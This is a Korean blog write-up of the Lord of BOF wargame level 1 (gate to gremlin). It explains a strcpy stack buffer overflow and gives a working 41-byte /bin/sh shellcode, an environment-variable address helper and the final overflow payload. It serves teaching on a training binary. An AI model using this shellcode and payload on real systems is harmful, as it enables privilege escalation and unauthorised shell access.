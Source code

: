 ```yaml
---
title:  "[LOB] level 1: gate >> gremlin "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-21 05:17:28

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 1

**gate / gate**

gremlin.c 파일에서 코드 확인  
![image](https://user-images.githubusercontent.com/69203345/146874240-478f8c57-92a0-4430-b2f1-3869015d274d.png)

buffer에 256바이트 크기 할당
if문에서 전달받은 인자가 2개 이상인지 확인  

>main함수의 매개변수  
int argc
메인함수에 전달되는 정보의 갯수를 의미한다.  
char* argv［］
메인함수에 전달되는 실질적인 정보로, 문자열의 배열을 의미한다. 첫번째 문자열은 프로그램의 실행경로로 항상 고정이 되어 있다.  
[참조](https://m.blog.naver.com/sharonichoya/220501242693)

그후 strcpy에서 취약점이 발생하는데 strcpy는 복사받는 대상의 크기에 상관없이 무조건 복사를 합니다. bof취약점이 생긴다는 거죠

이제 스택의 상황을 살펴보자면  

![image](https://user-images.githubusercontent.com/69203345/146874308-b6d294af-73d8-4df6-9590-205c9985a18a.png)

0x8048433 <main+3>: sub %esp,0x100  
스택크기로 0x100(256바이트)지정

0x804846e <main+62>: lea %eax,[%ebp-256]  
을 보면 buf가 [ebp-256]에 위치함

낮은주소

buf[256] [ebp-256]
sfp[4]  
ret[4]

높은주소

dummy없이 buffer-sfp-ret 일듯하다

환경변수설정, 41바이트 쉘코드 사용  
> export EGG=\`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`  
> echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c  
> gcc getenv.c -o getenv

![image](https://user-images.githubusercontent.com/69203345/146874923-cb656a6f-02ac-415c-8ffb-2cc38536c174.png)

나온 주소를 사용해서 페이로드 작성  
>\`python -c 'print "A"*260+"\x9f\xfe\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/146875287-25b78235-b94d-4a25-85a6-89155c77a81e.png)

---
[쉘코드 기초](https://d4m0n.tistory.com/10)  
main함수의 매개변수
[참조](https://m.blog.naver.com/sharonichoya/220501242693)  
[기술들 참조](https://d4m0n.tistory.com/category/System%20Hacking/Techniques)